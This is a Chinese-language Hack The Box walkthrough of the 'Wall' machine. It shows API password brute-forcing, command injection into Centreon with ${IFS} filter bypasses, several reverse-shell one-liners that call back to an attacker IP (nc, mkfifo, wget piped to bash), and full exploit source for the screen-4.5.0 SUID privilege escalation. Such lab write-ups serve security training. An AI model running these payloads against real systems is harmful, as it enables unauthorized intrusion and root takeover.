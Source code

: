 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/QHIUM1oimDvGv_R9f33Img)

![](https://mmbiz.qpic.cn/mmbiz_gif/lFOEJLHA9qlicxGM47K4815LLNn8DTMZibibkkllDgjFG8nwKN4w3mSiaib9MQaV4THiaaZQ1icBU5dzMjwrHIjOoFolw/640?wx_fmt=gif)

**声明：**请勿利用文章内的相关技术从事非法测试，如因此产生的一切不良后果与文章作者及本公众号无关！

**START**

0x01 初始访问

nmap 扫描结果：

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 2e:93:41:04:23:ed:30:50:8d:0d:58:23:de:7f:2c:15 (RSA)
|   256 4f:d5:d3:29:40:52:9e:62:58:36:11:06:72:85:1b:df (ECDSA)
|_  256 21:64:d0:c0:ff:1a:b4:29:0b:49:e1:11:81:b6:73:66 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

访问 80 端口  

http://10.10.10.157/monitoring   --->  Protected area by the admin 

系统提示没有权限访问

绕过方式：  

burp 抓包修改请求方式为 POST 成功绕过验证，301 跳转

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qmkE7CY7QPUAg7eYibUooUYwSl2A8MXCc4Aw5wvvZZh6a7CH9dmWtTQJ1sCYbZgSTmfs7L9n9myZsA/640?wx_fmt=png)

随后点击上方的 Follow Redirection 即可跟随到跳转页面

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qmkE7CY7QPUAg7eYibUooUYwwhXT0Wh5FfWU0koIg9Leia0SLGbGbkxzb7EzvLofd5Siaqv4Y7cm7QIg/640?wx_fmt=png)

0x02 使用最朴素的方法得到账密

http://10.10.10.157/centreon/  --->centreon  v. 19.04.0 登录页面  ----> RCE (需要管理员账户密码)

```
web页面默认凭据 admin/centreon   
ssh 默认凭据 root：centreon
```

默认凭据失效；尝试爆破，但是存在 CSRF 保护，每次验证过后都会重新生成令牌

当时可以利用该应用的 API 接口：相关文档 

https://documentation.centreon.com/docs/centreon/en/19.04/api/api_rest/index.html

POST 方式认证发送 "user 到 http://xx.xx.xx.xx/centreon/api/index.php?action=authenticate ---> 认证成功返回 200 状态码，否则 401

使用 wfuzz 工具进行爆破  

```
wfuzz -z file,/usr/share/wordlists/rockyou.txt -d “username=admin&password=FUZZ” –sc 200 http://10.10.10.157/centreon/api/index.php?action=authenticate
爆破结果：admin：password1
```

0x03 ******利用 centreon RCE 漏洞反弹 shell******

在 kali 下 searchsploit 搜索相关 centreon 得应用漏洞

对比以前搜集的该应用的版本信息，找到远程代码执行的 py 脚本

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qmkE7CY7QPUAg7eYibUooUYwhPjsQrqDibjNrFJWjBAg5hZjW3mjzXoh2N9BWia3aYkBEnupdXWgI3LQ/640?wx_fmt=png)

```
python 47069.py   http://10.10.10.157/centreon  admin password1  10.10.14.67 4444  
```

发现并没有返回 shell 到 nc，猜测存在过滤。  

手工尝试：

Configuration-->Pollers --->Pollers---->add--->Monitoring Engine Binary 字段，命令注入    

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qmkE7CY7QPUAg7eYibUooUYwjbQXEgBGYVticiaicYicbE0T5ibOSFD7msZdpicWStgDsLZylxhx9Uh6IP5Q/640?wx_fmt=png)

保存 -->Expore Configuration-->Expore

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qmkE7CY7QPUAg7eYibUooUYw1lKUF5Aay7Lh2RmiciaZ8HRAXYAVzs8kseV7wicGjJgm7gmls5pP7Bqdg/640?wx_fmt=png)

命令执行绕过测试：

```
ls -al ####返回Forbidden
ls${IFS}al ####正常返回结果----->对空格进行过滤
反弹shell：
nc${IFS}10.10.14.67${IFS}1337${IFS}-e${IFS}/bin/bash；----> 保存的时候Forbidden
rm${IFS}/tmp/f;mkfifo${IFS}/tmp/f;cat${IFS}/tmp/f|/bin/sh${IFS}-i${IFS}2>&1|nc${IFS}10.10.14.67${IFS}1337${IFS}>/tmp/f；
没有回连；受符号影响？？？改用base64
echo${IFS}bmNhdCAxMC4xMC4xNC42NyA0NDQ0IC1lIC9iaW4vYmFzaAo=${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}bash;
返回错误：sh: 1: -v: not found
```

尝试远程加载 paylaod 执行

```
kali@kali:~$ cat shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.67 1337 >/tmp/f
```

填入 paylaod：

```
wget${IFS}-qO-${IFS}http://10.10.14.67:8000/shell${IFS}|${IFS}bash;
```

成功反弹 www-data shell

0x04 ******权限提升******

查看可以 suid 提权的可执行文件

```
$ find / -perm -u=s -type f 2>/dev/null
/bin/screen-4.5.0
.....
```

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qmkE7CY7QPUAg7eYibUooUYwuUOsJlcPIiaPz8TkYcaBdJVpLOwJWnzweIpkny9cPYaZbOJMiaqu03yw/640?wx_fmt=png)

按照 sh 教程走，生成对应文件

libhax.c

```
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```

编译命令：  

```
gcc -fPIC -shared -ldl -o libhax.so libhax.c
```

rootshell.c

```
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
```

编译命令：

```
gcc -o rootshell rootshell.c
```

exploit.sh

```
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so...
```

将 libhax.so rootshell exploit.sh 上传到目标机器，./ 执行提取的 sh 脚本，成功提权

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qmkE7CY7QPUAg7eYibUooUYwwB0YPJYzDhA3NKOF6LRn6yPhQRWVuUOu5lqeNp1dokZ2TMoiaMaAibeQ/640?wx_fmt=png)

- 往期推荐 -

  

[Chatterbox(hack the box 系列)](http://mp.weixin.qq.com/s?__biz=Mzg4MzA4Nzg4Ng==&mid=2247484507&idx=1&sn=27ac98be7db39d45ae86a1f8b00afd7c&chksm=cf4d8b3af83a022c9f0564cd6ea69a479b3fa516ffee509d80e85a4696618bdb6e39b38b9e9d&scene=21#wechat_redirect)  

[hack the box 系列之 Freelance](http://mp.weixin.qq.com/s?__biz=Mzg4MzA4Nzg4Ng==&mid=2247484161&idx=1&sn=45f16a2113812f2a28919be34ba6584c&chksm=cf4d8c60f83a0576cf905f7421e373b3c2b49ebce32b2b41ac21c816a29b82a7adb5662c413a&scene=21#wechat_redirect)  

**【推荐书籍】**